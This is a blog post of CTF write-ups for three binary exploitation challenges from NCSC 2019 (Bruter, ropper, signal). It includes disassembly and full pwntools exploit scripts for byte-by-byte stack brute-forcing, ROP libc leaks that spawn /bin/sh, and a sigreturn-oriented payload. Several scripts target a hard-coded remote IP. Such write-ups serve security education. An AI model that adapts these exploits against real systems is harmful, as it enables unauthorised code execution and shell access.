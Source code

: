 ```yaml
---
layout: post
title:  "NCSC 2019 - pwn"
author: "Rettila"
tags: NCSC pwn srop stack overflow
---
```


Hi, this post will cover some binary exploitation tasks that we solved during the first edition of the National Cyber Security Congress organized by Securinets.

## Bruter
The binary was PIE enabled as we can see by running `checksec ./bruter`
{% highlight console %}
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}
This protection (PIE) combined to ASLR results in full randomization (or not) of the program's address space.

The first bug is a call to fork function: after a fork, both parent and child will have the same address layout.

The second bug is a call to read in `handle_child` function: the program reads 0x400 bytes of user input but saved rbp is only 0x10 bytes away from our our buffer start.
{% highlight console %}
|           0x00000e5a      ba00040000     mov edx, 0x400
|           0x00000e5f      4889ce         mov rsi, rcx
|           0x00000e62      89c7           mov edi, eax
|           0x00000e64      e817fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00000e69      90             nop
|           0x00000e6a      c9             leave
\           0x00000e6b      c3             ret
{% endhighlight %}
So, if we are able to overflow the buffer and overwrite rbp and the return address then we have control over rip and the execution flow.

Our goal is to execute `get_shell`
{% highlight console %}
/ (fcn) sym.get_shell 31
|   sym.get_shell ();
|           0x00000da0      55             push rbp
|           0x00000da1      4889e5         mov rbp, rsp
|           0x00000da4      488d3d0d0400.  lea rdi, str.Solved         ; 0x11b8 ; "Solved!!!"
|           0x00000dab      e850fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000db0      488d3d0b0400.  lea rdi, str.bin_bash_2__4_1__4___4 ; 0x11c2 ; "/bin/bash 2>&4 1>&4 <&4"
|           0x00000db7      e864fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000dbc      90             nop
|           0x00000dbd      5d             pop rbp
\           0x00000dbe      c3             ret
{% endhighlight %}
In order to do so, we need to find a valid rbp and the code base defined by the PIE protection. As stated before, the address space is the same at each connexion.

The solution consists in guessing the two parametres (rbp and rip) one byte at once starting from the first rbp byte:

- if the guessed byte value is correct, the program execution will go on and we will receive `Bye` as an answer and we can move to the next byte.

- if not, then we have no output return because the program crashed or jumped to another code location, we can conclude that the guessed byte value was wrong.

Once we have rip, we can calculate the code base and then jump to `get_shell` function.

{% highlight python %}
from pwn import *

server = '51.254.114.246'
port = 9998

i = 16
p = "A"*i
rbp = ''
while len(rbp)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(p+rbp+chr(j))
        out = r.recvall()
        print 'trying rbp: ',rbp+chr(j)
        if "Bye" in out:
            rbp += chr(j)
            r.close()
            break
        r.close()
print "Leaked rbp: ",rbp.encode('hex')


s1 = p+rbp
rip = ''
while len(rip)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(s1+rip+chr(j))
        out = r.recvall(timeout = 1)
        print 'trying rip: ',rip+chr(j)
        print out
        if "Bye" in out:
            rip += chr(j)
            r.close()
            break
        r.close()

print "rbp",rbp.encode('hex') 
print "rip",rip.encode('hex')

for i in range(0xf):
	r = remote(server,port)
	r.recv()
	get_shell = p64( (u64(rip) & 0xfffffffffffff0000) + (i <<12) + 0xda0)
	payload = s1 + get_shell
	r.sendline(payload)
	try:
		r.sendline('ls')
		print r.recv()
		r.interactive()
	except:
		pass
	r.close()
{% endhighlight %}

## ropper
A classic buffer overflow, we have control over rip after 168 bytes in the vuln function.
ASLR is enabled on the server.
{% highlight console %}
rett@RETTILA:~/ctf/ncsc/pwn$ checksec ropper
[*] '/home/rett/ctf/ncsc/pwn/ropper'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

We have got some unusual gadgets from the `help_gadgets` function to help us setting our arguments
{% highlight console %}
/ (fcn) sym.help_gadgets 8
|   sym.help_gadgets ();
|           0x00401192      55             push rbp
|           0x00401193      4889e5         mov rbp, rsp
|           0x00401196      5f             pop rdi
|           0x00401197      5e             pop rsi
|           0x00401198      5a             pop rdx
\           0x00401199      c3             ret
{% endhighlight %}
To find out the libc version and base, we started by leaking two adresses of libc using the following payload

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the GOT table + 0x8 + write from the PLT table + vuln address`

stage2 :`padding + pop rdi , rsi and rdx + 0x1 + printf from the GOT table + 0x8 + write from the PLT table`

which results in the execution of the following functions:

`write(1,write_got,8) --> call to vuln function again` and then `write(1,printf_got,8)`

By checking [libc database search][libc_id_link] , we can easily determine libc version and the the system function and `/bin/sh` string offsets from the libc.

Second execution payload will contain:

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the got table + 0x8 + write from the PLT table +  vuln address`

stage2 :`padding + pop rdi , rsi and rdx ( too lazy to look for pop rdi ) + calculated '/bin/sh' string address + 0x0 + 0x0 + calculated system address`

Too lazy to clean the code, so i put both of the steps in one script

{% highlight python %}
from pwn import *

pop_rdi_rsi_rdx = 0x00401196
vuln = 0x00401259
write_plt = 0x00401040 
write_got = 0x0404020
printf_got = 0x404030

r = remote('51.254.114.246', 3333)
r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(write_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_write = u64(out[len(out)- 8:])

print hex(leak_write)
print out

r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(printf_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

base = leak_printf - 0x055800
system = base + 0x045390
binsh = base + 0x18cd57

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(binsh)
p += p64(0)
p += p64(0)
p += p64(system)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

r.interactive()
r.close()
{% endhighlight %}

## signal
A binary containing very few code that reads user input to the top of the stack and calls for sigreturn (rax set to 0xf).

{% highlight python %}
/ (fcn) entry0 23
|   entry0 ();
|           0x00401000      31c0           xor eax, eax                ; [08] m-r-x section size 36 named LOAD1
|           0x00401002      31ff           xor edi, edi
|           0x00401004      31d2           xor edx, edx
|           0x00401006      b604           mov dh, 4
|           0x00401008      4889e6         mov rsi, rsp
|           0x0040100b      0f05           syscall
|           0x0040100d      31ff           xor edi, edi
|           0x0040100f      6a0f           push 0xf                    ; rax
|           0x00401011      58             pop rax
|           0x00401012      0f05           syscall
|           0x00401014      cd03           int 3
            ;-- rip:
\           0x00401016      c3             ret
{% endhighlight %}

All we need to do is to read the flag at address 0x00402000
{% highlight console %}
0x00402000 36 str.Securinets_Flag_is_in_remote_server
{% endhighlight %}

The supplied input is our constructed sigreturn frame containing a call to write(1, flag address, 50)

{% highlight python %}
from pwn import *

context.clear(arch="amd64")

#~ r = remote('51.254.114.246',2222)
r = process('./pwn_c')

frame = SigreturnFrame(kernel="amd64") 
frame.rax = 1 
frame.rdi = 1 
frame.rsi = 0x00402000 
frame.rdx = 50 
frame.rsp = 0x41414141
frame.rip = 0x00401012 
payload = str(frame)
r.send(payload)
print r.recvall(timeout=1)
{% endhighlight %}

[libc_id_link]:https://libc.blukat.me/
